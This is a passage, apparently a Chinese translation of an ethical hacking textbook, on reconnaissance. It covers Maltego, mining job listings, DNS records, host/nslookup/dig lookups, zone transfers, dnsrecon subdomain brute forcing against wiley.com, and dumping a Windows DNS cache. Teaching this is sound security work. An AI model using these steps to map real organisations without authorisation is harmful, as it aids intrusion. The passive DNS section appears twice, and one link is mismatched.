还有另一个对整体侦察有用的工具，但因为它具备 Twitter 功能，我们在此介绍它。Maltego 采用可视化方式，通过收集到的数据创建图形。它能帮助识别数据之间的实体关系，例如数据之间的父子关系。Maltego 使用 transforms 从一条信息跳转到另一条信息。一系列 transforms 称为 machine，是一个很好的起点。Figure 4.11 展示了 Twitter Digger X（分析提供的用户推文）的部分输出结果。你可以看到，结果以树形结构呈现。这是因为每一条收集到的数据都可能进一步产生另一条数据，从而形成子节点。

如果你想要一个可视化的数据收集工具，Maltego 会是一个不错的选择，尤其是当你想要快速获取额外数据时，只需在图形上选取一个节点并运行转换（transform）即可跳转到另一个数据收集工具。例如，你可以从主机名开始，只需运行一个转换即可获取其 IP 地址。



**FIGURE 4.11** Maltego graph from Twitter

除了 Twitter Digger X 之外，还有其他 Twitter 机器和转换。你还可以监控 Twitter 上的标签使用情况，例如。这将提供额外的功能，除了在 Maltego 内部搜索 Twitter 的其他功能外，还能进一步扩展其功能。

#### Job Sites

-   [LinkedIn](https://www.linkedin.com) 作为信息来源。我们从 `LinkedIn` 可以获取到的信息之一是职位描述，这为我们提供了一些关于某些组织使用的技术的洞察。例如，Figure 4.12 显示了一个开放职位的部分资格要求。这是一份高级 DevOps 工程师的职位，发布在 `indeed.com`。虽然技术是作为示例列出的，但它们为我们提供了一些起点。你已经知道该公司使用关系型数据库。这并不奇怪，因为许多公司都在使用它们。但这告诉你，他们并没有使用 NoSQL，NoSQL 包括像 `MongoDB` 和 `Redis` 这样的技术。你也知道他们使用 `Amazon Web Services`。既然他们在寻找已在 AWS 上认证的人员，这点是确定的。



**FIGURE 4.12** Job listing with technologies

如果你想通过 Web 应用实现某些功能，你会知道它们使用 `RESTful` 接口。虽然这不算什么大的信息，但它是一个起点。随着你查看更多职位列表，你会能够有意识地阅读它们，挑选出潜在的目标。经过一段时间的阅读，你会开始从这些列表中辨认出其中的语言。例如，列表中多次使用了单词 *like*。虽然你无法从单行中完整了解使用的技术，但你可以排除某些技术。

寻找职位列表的地方很多。过去我们依赖报纸，需要在想要查找工作的地区获取报纸（或者想要研究的公司），而现在职位发布已经遍布线上。一些大型网站包括 `Monster`、`Indeed`、`Glassdoor`、`CareerBuilder` 和 `Dice`。你也应该关注公司本身。虽然许多公司使用职位发布站点，但也可能有公司在自己的站点上发布招聘信息，这些信息可能不在其他站点上。你也可以查看专门的站点，如 `USAJobs` 和 `ClearanceJobs`。

这些职位发布中的任何一条都可能为你提供关于技术以及组织结构的洞察。如前所述，不要只关注技术职位。你可以利用其他非技术类的职位发布来获取关于公司的更多信息。

## Domain Name System

虽然你可以在远程获取大量信息，但最终你需要深入挖掘。这仍然不意味着你要完全活跃，而是开始收集我们所面对的范围的详细信息。当你与目标系统以及其他所有系统交互时，需要使用 IP 地址进行通信。然而，人类不擅长记忆数字串。我们使用完全限定域名（FQDN）来指代系统，但这意味着我们需要一种能够将这些 FQDN 转换为 IP 地址的机制。这就是 DNS 的作用。

DNS 是一个层级系统，并且以多种方式呈层级。第一是我们使用的 FQDN。我可以用一个例子来说明。`www.labs.domain.com` 是一个 FQDN，因为它指向特定的主机或系统。阅读 FQDN 时最好从右向左阅读，因为 DNS 在将其转换为 IP 地址时也是如此。最初是顶级域名（TLD），它们包括 `.com`、`.org`、`.edu`，以及各个国家的域名（`.uk`、`.au`、`.ca`、`.sk`、`.us` 等）。后来加入了更多域名，但它们仍然是 TLD。它们被称为顶级域名，因为我们可以把 DNS 结构想象成一棵树，所有 TLD 位于树的顶端，其他内容则从这些 TLD 扩展出来。

第二级域名是我们开始添加组织的地方。TLD 属于整个 Internet，由管理它们的组织负责，但它们并不“属于”任何单一组织，至少不像第二级域名那样可以明确归属。在我们的例子中，第二级域名是 `domain`。通常人们说的“域名”指的是第二级域名加上 TLD，例如 `domain.com`。

在第二级域名之下是子域名。每个域名可以拥有尽可能多层子域名，只要管理方愿意管理。我们例子中的子域名是 `labs`，它属于 `domain.com` 域。当我们在子域名、第二级域名和 TLD 上加上 `www`（主机名）时，就形成了完全限定域名（FQDN）。它之所以是“完全限定”，是因为它明确表明主机 `www` 所属的域，并且明确指出了该域内的具体主机。

现在你已对 DNS 的命名结构及其用途有基本了解，接下来我们可以探讨如何利用 DNS 收集目标的信息。首先是名称查找。这包括名称查找的工作原理，随后我们会介绍一些可用的查找工具。之后，我们再讨论区域传输，这本质上是批量的名称查找。

### 名称查找

当你访问网站时，你输入的是统一资源定位符（URL）。URL 通常由两部分组成。第一部分是统一资源标识符（URI），它指明使用的协议（如 `http://` 或 `ftp://`）。在 URI 之后是 FQDN。浏览器会向操作系统发出请求，打开一个连接到 FQDN，并使用 URI 中指定的默认端口。但在连接打开之前，系统必须获得 IP 地址以填充第 3 层报头。于是，它会发出一个名称解析请求。每台计算机至少会配置一个名称解析器。名称解析器是你的电脑用来完成名称解析的系统。

TCP/IP 网络的名称解析器是 DNS 服务器，其他网络协议则使用相应的名称服务。它接收 DNS 请求并进行解析。通常，你配置的名称解析器是所谓的缓存服务器。它接收端点的请求，解析它们并缓存结果以提高效率。这与权威服务器不同，权威服务器保存特定域的记录。我们稍后会提到权威服务器。因此，第一条 DNS 请求是你的系统向缓存服务器发送的，无论它位于何处。Figure 4.13 展示了完整 DNS 名称解析的基本流程，供你参考。



**FIGURE 4.13** DNS name resolution

我们从标记为 A 的请求开始，它发送到名称解析器，即缓存 DNS。缓存 DNS 服务器检查其缓存，发现没有对应的 IP 地址，于是发起所谓的 *递归名称查询* 或 *递归名称解析*。之所以叫 *递归*，是因为它会产生多次越来越具体的请求，直至得到所需结果。缓存服务器首先需要查找根域名服务器的地址，依靠提示文件（hints file）中记录的根名字服务器的 IP 地址。对于我们的例子，缓存服务器需要确定用于 `.com` TLD 的服务器。找到后，它会发送请求 B，向根服务器请求 `domain.com` 域的名称服务器 IP 地址。

根服务器包含它负责的所有属于该顶级域（TLD）的域的名称服务器详情。根服务器会向我们的缓存服务器返回 `domain.com` 的名称服务器的 IP 地址。我们在之前的 `whois` 查询中，查询的结尾会出现该域的名称服务器，因为名称服务器是与域一起存储的，这正是我们称之为 *递归查询* 的原因。我们不能直接向根服务器询问主机名的 IP 地址，必须让它指向下一步要询问的服务器。

请求 C 是 DNS 请求，向 `domain.com` 的权威名称服务器询问 `labs.domain.com`。由于 `labs.domain.com` 与 `domain.com` 是分开的，缓存服务器返回的将是另一个名称服务器，这意味着多一次请求。我们现在处于正在查询完整限定域名（FQDN）的阶段。请求 D 询问 `www.labs.domain.com` 的 IP 地址。权威服务器（即我们正在询问的、拥有该域权威信息的服务器）返回 IP 地址。它可能会返回多个 IP 地址，但为了简化，我们假设只返回一个 IP。缓存服务器拿到 IP 后，会将响应发送回我们的系统，系统随后可以发出请求 E，这不是 DNS 请求，而是向 Web 服务器的连接请求。

虽然 DNS 存储的是 FQDN 到 IP 地址的映射，但并非唯一的数据映射。你可以查找的不同记录类型包括：

*   **A**：A 记录是地址记录，用于将 FQDN 转换为 IP 地址。

*   **AAAA**：AAAA 记录用于将 FQDN 转换为 IPv6 地址。

*   **MX**：每个域都有邮件交换记录，用于指示邮件应发送至该域的主机。

*   **NS**：名称服务器记录是该域的权威名称服务器的 FQDN 与 IP 地址。

*   **SOA**：起始权威记录包含区域信息，包括序列号，指示区域信息上次变更的时间。

*   **CNAME**：规范名称是 FQDN 的别名，用于将一个主机名映射到另一个主机名或 FQDN。CNAME 可能指向具体的主机名，因为如果域名在同一域内，域名本身通常会被默认。

*   **PTR**：从 IP 地址到 FQDN 的指针。与 A 记录不同，这不是必须的，但被认为是有用的。FQDN 必须映射到 IP 地址，而 IP 地址不一定要映射到主机名。经常多个 FQDN 会映射到同一个 IP 地址。

还有其他记录，其中一些与电子邮件安全有关，用于指示签名键以验证来自可信邮件服务器的消息。还有一条记录是 TXT 记录，用于存储不具备特定用途但可用于多种目的的文本条目。现在你已经了解了从 DNS 服务器获取 IP 地址的过程以及可以收集的其他信息，我们可以开始查看可用的工具。

#### 使用 `host`

也许最易用的工具是 `host`。它在大多数类 Unix 系统（包括 Linux）中可用，但没有 Windows 版本。如果默认未安装，通常可以直接安装。使用方法非常简单：将想查询的主机名传给 `host`，即可得到响应。下面的代码示例展示了这一点：

**使用 `host` 进行 DNS 查询**

```
$ host www.sybex.com
www.sybex.com has address 208.215.179.132
$ host www.sybex.com 4.2.2.1
Using domain server:
Name: 4.2.2.1
Address: 4.2.2.1 # 53
Aliases:
 
www.sybex.com has address 208.215.179.132
$ host 208.215.179.132
132.179.215.208.in-addr.arpa domain name pointer motorfluctuations.net.
132.179.215.208.in-addr.arpa domain name pointer managementencyclopedia.org.
132.179.215.208.in-addr.arpa domain name pointer smdashboard.wiley.com.
132.179.215.208.in-addr.arpa domain name pointer elansguides.com.
132.179.215.208.in-addr.arpa domain name pointer currentprotocols.net.
132.179.215.208.in-addr.arpa domain name pointer geographyencyclopedia.com.
132.179.215.208.in-addr.arpa domain name pointer separationsnow.info.
132.179.215.208.in-addr.arpa domain name pointer jcsm-journal.com.
132.179.215.208.in-addr.arpa domain name pointer literature-compass.com.
```

除了直接查询 IP 地址外，我们还可以使用不同于默认解析器的服务器。第二条命令中，我把 `4.2.2.1` 作为参数传入，这是一个任何人都可以使用的缓存服务器。该服务器由 BBN Planet 在 1990 年代创建，和 Google、Cloudflare 等类似服务一样，可供全 Internet 用户使用。由于它也是公开的缓存服务器，我们可以向它发送请求，它会按照前面描述的同样流程进行查询。


从示例`host 208.215.179.132`可以看出，还可以通过 IP 地址查询 FQDN，即进行*反向查找*。DNS 服务器可能会存储 FQDN 到 IP 的映射，从而实现这种反向查找。正如示例所示，同一个 IP 地址往往对应多个主机名，这在虚拟主机的场景中很常见——同一台 web 服务器可以根据请求中的主机名决定提供哪些内容。对该 IP 的查询返回了 197 条记录，但为了节省空间已被截断。

### 使用`nslookup`

另一个可用的工具是`nslookup`。它的用法与`host`类似，例如直接运行`nslookup www.sybex.com`即可得到结果。`nslookup`的优势在于可以在同一个会话中发出多条请求，而不必每次都重新启动程序。运行`nslookup`而不加参数时，会进入一个交互式 shell，在此期间你可以随时发送查询。下面的代码展示了一个`nslookup`会话：

**使用`nslookup`进行名称解析**

```
$ nslookup
> set type=ns
> sybex.com
Server:        192.168.86.1
Address:    192.168.86.1#53
```

**非权威答案：**

```
sybex.com    nameserver = jws-edcp.wiley.com.
sybex.com    nameserver = ns.wiley.co.uk.
sybex.com    nameserver = ns2.wiley.co.uk.
sybex.com    nameserver = sg-ns01.wiley.com.
sybex.com    nameserver = bri-ns01.wiley.com.
sybex.com    nameserver = ns.wileypub.com.

Authoritative answers can be found from:
> set type=A
> server ns.wileypub.com.
Default server: ns.wileypub.com.
Address: 12.165.240.53#53
> www.sybex.com
Server:        ns.wileypub.com.
Address:    12.165.240.53#53

Name:    www.sybex.com
Address: 208.215.179.132
```

除了直接根据 FQDN 查询 IP，我还使用了资源记录。虽然 DNS 支持多种记录类型，但最常见的是地址（A）记录。当看到`set type=ns`时，我让`nslookup`发送后续请求以获取名称服务器（NS）记录，这将告诉我们该域的权威名称服务器。获取 NS 列表后，我将查询目标设置为其中一个 NS，这意味着`nslookup`直接向权威服务器发送 DNS 请求，无需进行递归查找，因为该服务器已经拥有所需信息。

`dig`是另一个用于名称解析的实用程序。它同样支持我们之前做的所有操作，这意味着我们可以指定不同的名称服务器，并请求不同类型的资源记录。下面的示例展示了`dig`的用法。命令行中包含了所有请求信息，包括资源记录类型、请求内容以及`dig`应该发送请求的服务器。

**使用`dig`进行 DNS 查找**

```
$ dig mx wiley.com @car-ibextdns-01.wiley.com

; <<>> DiG 9.10.6 <<>> mx wiley.com @car-ibextdns-01.wiley.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 47684
;; flags: qr aa rd; QUERY: 1, ANSWER: 2, AUTHORITY: 0, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 1220
;; QUESTION SECTION:
;wiley.com.                IN    MX

;; ANSWER SECTION:
wiley.com.          900    IN    MX      10 mxa-0053b401.gslb.pphosted.com.
wiley.com.          900    IN    MX      10 mxb-0053b401.gslb.pphosted.com.

;; Query time: 62 msec
;; SERVER: 63.97.119.2#53(63.97.119.2)
;; WHEN: Tue Feb 28 17:13:30 EST 2023
;; MSG SIZE  rcvd: 110
```

响应比以往任何时候都更加详细。首先，我们可以看到`dig`在运行时使用的参数。这些参数可以按需更改。参数之后，你可以看到查询部分，这使得请求内容非常清晰。你可以将其与命令行中指定的内容进行对比，以防止任何混淆。最后，我们得到结果。

在此示例中，类型是 MX，即邮件交换记录。DNS 服务器会返回为该域名配置的所有邮件服务器列表。当你想向某人发送邮件时，你的邮件服务器会发出 DNS 请求，询问应该将邮件发送到哪个邮件服务器。邮件服务器以数字列出，最小的数字是首选服务器。如果出于任何原因无法到达该服务器，则会转到下一个，直到没有更多服务器可用并必须失败消息。

使用`dig`，我们可以像之前使用`host`和`nslookup`一样在命令行上指定想要的资源记录类型。在我们的命令行（`dig mx wiley.com @car-ibextdns-01.wiley.com`）中，`mx`是被请求的资源记录类型，但也可以是 A、NS、PTR 等。如果我们想从 FQDN 获取 IP 地址，也可以使用 PTR。在请求类型之后是请求本身。由于我们查找的是邮件交换记录，这里是域名；不过你也可以提供完整的 FQDN，系统会返回该 FQDN 中最后一个域的邮件交换记录。最后，我们使用`@`标识要查询的服务器。

### 区域传输

单个请求已经足够，但它假设你已经知道一些信息。通常，应用程序会请求基于 FQDN 的 IP 地址信息，以便正常工作。在我们的情形中，作为伦理黑客，我们有时需要获取属于某个域的所有主机名。这可以通过所谓的*区域传输*来实现。区域传输是合法的，用于在多个权威名称服务器之间保持同步。你可能拥有一个域的主权限名称服务器，以及多个从属服务器。从属服务器会向主服务器发起区域传输请求，以同步记录。

我们可以利用这一能力，理论上请求域内的所有记录。因此，出现了两种情况。首先，大多数域不会允许除已配置的从属名称服务器之外的任何人进行区域传输。其次，许多公司使用所谓的*分区 DNS*，即外部世界使用授权的名称服务器地址来解析外部可访问的主机（如 Web 服务器和邮件服务器）。企业内部的系统则使用公司内部的解析器，该解析器被配置为域的权威。这意味着内部网络可以解析和连接到外部不可见的许多系统。

要发起区域传输请求，可以使用我们已经熟悉的工具，或者使用其他工具。例如，如果想使用`dig`尝试区域传输，请求类型为`axfr`。下面的示例展示了使用`dig`进行区域传输的过程。

**使用`dig`进行区域传输**

```
$ dig axfr domain.com @192.168.86.51

; <<>> DiG 9.10.6 <<>> axfr domain.com @192.168.86.51
;; global options: +cmd
domain.com.        86000    IN    SOA    ns.domain.com. root.domain.com. 1 604800 86400 24129200 604800
domain.com.        86000    IN    NS    ns.domain.com.
blagh.domain.com.    86000    IN    A    172.16.56.10
ftp.domain.com.        86000    IN    A    10.5.6.10
lab.domain.com.        86000    IN    A    172.16.56.7
ns.domain.com.        86000    IN    A    192.168.86.51
wubble.domain.com.    86000    IN    A    172.30.42.19
www.domain.com.        86000    IN    A    192.168.75.24
domain.com.        86000    IN    SOA    ns.domain.com. root.domain.com. 1 604800 86400 24129200 604800
;; Query time: 20 msec
;; SERVER: 192.168.86.51#53(192.168.86.51)
;; WHEN: Thu Jul 05 10:15:27 MDT 2018
;; XFR size: 9 records (messages 1, bytes 243)
```

### 暴力破解

由于区域传输通常被禁止，你可能需要依赖不太优雅的解决方案来获取目标信息。幸运的是，有一些工具可以帮助你。其中一个是`dnsrecon`，它可以用于提取常见的 DNS 资源记录，并通过提供的字典进行重复请求以识别主机名。下面的示例展示了`dnsrecon`进行暴力破解的过程。字典中包含了若干可能的主机名，这些名称会被附加到提供的域名前，生成完整的 FQDN 并进行检查。以下是扫描结果的片段。

**使用`dnsrecon`获取主机名**

```
$ dnsrecon -d wiley.com -D /usr/share/wordlists/dnsmap.txt -t brt
[*] Performing host and subdomain brute force against wiley.com
[*] A act.wiley.com 209.172.193.49
[*] A adc.wiley.com 192.168.5.1
[*] A ags.wiley.com 209.172.193.49
[*] A api.wiley.com 209.172.192.180
[*] A bcs.wiley.com 209.172.193.216
[*] CNAME bpa.wiley.com internal-bpa-private-app-prod-elb-405571586
.us-east-1.elb.amazonaws.com
[*] A internal-bpa-private-app-prod-elb-405571586.us-east-1.elb.amazonaws
.com 10.223.11.111
[*] A internal-bpa-private-app-prod-elb-405571586.us-east-1.elb.amazonaws
.com 10.223.139.133
[*] A bpm.wiley.com 10.6.1.241
[*] A bps.wiley.com 10.6.2.91
[*] A cct.wiley.com 209.172.194.98
[*] CNAME cec.wiley.com d1hsh8hpdo3jj3.cloudfront.net
```

在某些情况下，查询 IP 地址会返回别名。在输出中，这些以 CNAME 形式出现。CNAME 指向另一个主机名或完整的 FQDN，该名称会继续解析直至得到 IP 地址。可能存在多层 CNAME 需要依次解析。部分 IP 地址是私有的，而其他则是公开的。这些公开的 IP 地址可以进一步追踪。

### 被动 DNS

- [被动 DNS 侦察](https://wiki.example.org/feynmans_learning_method)是利用本地系统中缓存的 DNS 条目进行的一种技术。

每次在某些系统上执行 DNS 查找时，结果会被本地缓存。这种缓存可以避免下次访问相同主机时再发送网络请求。条目在 DNS 中的存活时间（TTL）由其生存期（time-to-live）字段决定，该字段从权威记录（SOA）开始。SOA 记录指示域记录本身的过期时间，告诉任何查询该域的人何时需要再次检查权威域名服务器。每个域都有关联的 NS 记录，指明需要询问哪些服务器以获取该域的答案。除非记录已在本地缓存（无论是客户端本身还是客户端询问的本地缓存服务器），否则应始终向这些权威服务器查询。

除了 SOA 记录提供的域级超时长度外，DNS 中每条单独记录都可以拥有自己的生存期（TTL）值。该值表明系统可以缓存结果的时间，然后需要再次向权威 DNS 服务器查询以确认值未变。根据 DNS 规范，不必等到条目生命周期结束才刷新缓存，而是使用小于完整 TTL 的值。TTL 仍然指导本地缓存中保留值的时长。

Windows 系统会缓存这些值，并且可以导出缓存内容，如下面的片段所示。要在 Windows 系统上导出缓存，可使用命令行工具，例如传统的命令行或基于 PowerShell 的命令`ipconfig /displaydns`。

**使用 ipconfig**


```
PS C:\Users\Ric Messier> ipconfig /displaydns
 
Windows IP Configuration
 
vortex.data.microsoft.com
----------------------------------------
Record Name . . . . . : vortex.data.microsoft.com
Record Type . . . . . : 5
Time To Live  . . . . : 24
Data Length . . . . . : 8
Section . . . . . . . : Answer
CNAME Record  . . . . : asimov.vortex.data.trafficmanager.net
 
 
Record Name . . . . . : asimov.vortex.data.trafficmanager.net
Record Type . . . . . : 1
Time To Live  . . . . : 24
Data Length . . . . . : 4
Section . . . . . . . : Answer
A (Host) Record . . . : 64.4.54.254
 
 
array511.prod.do.dsp.mp.microsoft.com
----------------------------------------
Record Name . . . . . : array511.prod.do.dsp.mp.microsoft.com
Record Type . . . . . : 1
Time To Live  . . . . : 1489
Data Length . . . . . : 4
Section . . . . . . . : Answer
A (Host) Record . . . : 52.184.213.21
 
1.0.0.127.in-addr.arpa
----------------------------------------
Record Name . . . . . : 1.0.0.127.in-addr.arpa.
Record Type . . . . . : 12
Time To Live  . . . . : 541542
Data Length . . . . . : 8
Section . . . . . . . : Answer
PTR Record  . . . . . : kubernetes.docker.internal
 
 
download.visualstudio.microsoft.com
----------------------------------------
Record Name . . . . . : download.visualstudio.microsoft.com
Record Type . . . . . : 5
Time To Live  . . . . : 33
Data Length . . . . . : 8
Section . . . . . . . : Answer
CNAME Record  . . . . : 2-01-5830-0005.cdx.cedexis.net
 
 
Record Name . . . . . : 2-01-5830-0005.cdx.cedexis.net
Record Type . . . . . : 5
Time To Live  . . . . : 33
Data Length . . . . . : 8
Section . . . . . . . : Answer
CNAME Record  . . . . : 4316b.wpc.azureedge.net
 
 
Record Name . . . . . : 4316b.wpc.azureedge.net
Record Type . . . . . : 5
Time To Live  . . . . : 33
Data Length . . . . . : 8
Section . . . . . . . : Answer
CNAME Record  . . . . : cs10.wpc.v0cdn.net
 
 
Record Name . . . . . : cs10.wpc.v0cdn.net
Record Type . . . . . : 28
Time To Live  . . . . : 33
Data Length . . . . . : 16
Section . . . . . . . : Answer
AAAA Record . . . . . : 2606:2800:11f:7de:d31:7db:168f:1225
 
array513.prod.do.dsp.mp.microsoft.com
----------------------------------------
Record Name . . . . . : array513.prod.do.dsp.mp.microsoft.com
Record Type . . . . . : 1
Time To Live  . . . . : 1202
Data Length . . . . . : 4
Section . . . . . . . : Answer
A (Host) Record . . . : 52.184.214.53
```

在实践中，侦察分为两个不同的阶段。虽然在发动攻击时会大量关注信息收集，但获取利用后也会进行大量侦察。你可以从外部以及内部进行侦察。一旦你进入内部网络，某些侦察工作会变得更容易，或者至少我们会打开其他侦察途径。利用本地系统中缓存的 DNS 条目的技术被称为 `passive` DNS 侦察。

每次在某些系统上执行 DNS 查找时，结果会被本地缓存。这种缓存可以避免下次访问相同主机时再发送网络请求。条目的存活时间（TTL）由 DNS 条目中的生存期（time‑to‑live）字段决定，该字段从权威记录（SOA）开始。SOA 记录指示域记录本身的过期时间，告诉任何查询该域的人何时需要再次检查权威域名服务器。每个域都有关联的 NS 记录，指明需要询问哪些服务器以获取该域的答案。除非记录已在本地缓存（无论是客户端本身还是客户端询问的本地缓存服务器），否则应始终向这些权威服务器查询。

除了 SOA 记录提供的域级超时长度外，DNS 中每条单独记录都可以拥有自己的生存期（TTL）值。该值表明系统可以缓存结果的时间，然后需要再次向权威 DNS 服务器查询以确认值未变。根据 DNS 规范，不必等到条目生命周期结束才刷新缓存，而是使用小于完整 TTL 的值。TTL 仍然指导本地缓存中保留值的时长。

Windows 系统会缓存这些值，并且可以导出缓存内容，如下面的片段所示。要在 Windows 系统上导出缓存，可使用命令行工具，例如传统的命令行或基于 PowerShell 的命令 `ipconfig /displaydns`。

```
PS C:\Users\Ric Messier> ipconfig /displaydns
 
Windows IP Configuration
 
vortex.data.microsoft.com
----------------------------------------
Record Name . . . . . : vortex.data.microsoft.com
Record Type . . . . . : 5
Time To Live  . . . . : 24
Data Length . . . . . : 8
Section . . . . . . . : Answer
CNAME Record  . . . . : asimov.vortex.data.trafficmanager.net
 
 
Record Name . . . . . : asimov.vortex.data.trafficmanager.net
Record Type . . . . . : 1
Time To Live  . . . . : 24
Data Length . . . . . : 4
Section . . . . . . . : Answer
A (Host) Record . . . : 64.4.54.254
 
 
array511.prod.do.dsp.mp.microsoft.com
----------------------------------------
Record Name . . . . . : array511.prod.do.dsp.mp.microsoft.com
Record Type . . . . . : 1
Time To Live  . . . . : 1489
Data Length . . . . . : 4
Section . . . . . . . : Answer
A (Host) Record . . . : 52.184.213.21
 
1.0.0.127.in-addr.arpa
----------------------------------------
Record Name . . . . . : 1.0.0.127.in-addr.arpa.
Record Type . . . . . : 12
Time To Live  . . . . : 541542
Data Length . . . . . : 8
Section . . . . . . . : Answer
PTR Record  . . . . . : kubernetes.docker.internal
 
 
download.visualstudio.microsoft.com
----------------------------------------
Record Name . . . . . : download.visualstudio.microsoft.com
Record Type . . . . . : 5
Time To Live  . . . . : 33
Data Length . . . . . : 8
Section . . . . . . . : Answer
CNAME Record  . . . . : 2-01-5830-0005.cdx.cedexis.net
 
 
Record Name . . . . . : 2-01-5830-0005.cdx.cedexis.net
Record Type . . . . . : 5
Time To Live  . . . . : 33
Data Length . . . . . : 8
Section . . . . . . . : Answer
CNAME Record  . . . . : 4316b.wpc.azureedge.net
 
 
Record Name . . . . . : 4316b.wpc.azureedge.net
Record Type . . . . . : 5
Time To Live  . . . . : 33
Data Length . . . . . : 8
Section . . . . . . . : Answer
CNAME Record  . . . . : cs10.wpc.v0cdn.net
 
 
Record Name . . . . . : cs10.wpc.v0cdn.net
Record Type . . . . . : 28
Time To Live  . . . . : 33
Data Length . . . . . : 16
Section . . . . . . . : Answer
AAAA Record . . . . . : 2606:2800:11f:7de:d31:7db:168f:1225
 
array513.prod.do.dsp.mp.microsoft.com
----------------------------------------
Record Name . . . . . : array513.prod.do.dsp.mp.microsoft.com
Record Type . . . . . : 1
Time To Live  . . . . : 1202
Data Length . . . . . : 4
Section . . . . . . . : Answer
A (Host) Record . . . : 52.184.214.53
```

在实践中，外部侦察这种技术可能用处不大。一旦你获得内部网络的访问权限，你就想了解所有系统和 IP 地址。从外部，你可以查询公开来源获取组织可能拥有的地址块信息。而在内部，它们通常使用私有地址，公开记录中很少有关于这些地址块的信息，除非你偶然获得网络管理系统的访问权限，该系统记录所有地址块。相反，你可以在你拥有访问权限的系统上导出 DNS 缓存。导出的内容不仅包含主机名，还包含这些主机名对应的 IP 地址。如果缓存中出现大量公司域名的条目，你很可能正在查看内部 DNS 记录。另一种表明你拥有内部地址的线索是看到以 `.local` 结尾的条目，这是一个不能在 Internet 上使用的顶级域，常被用作内部 DNS 实现的顶级域（即完全限定域名的最后部分，包含主机名和域名）。

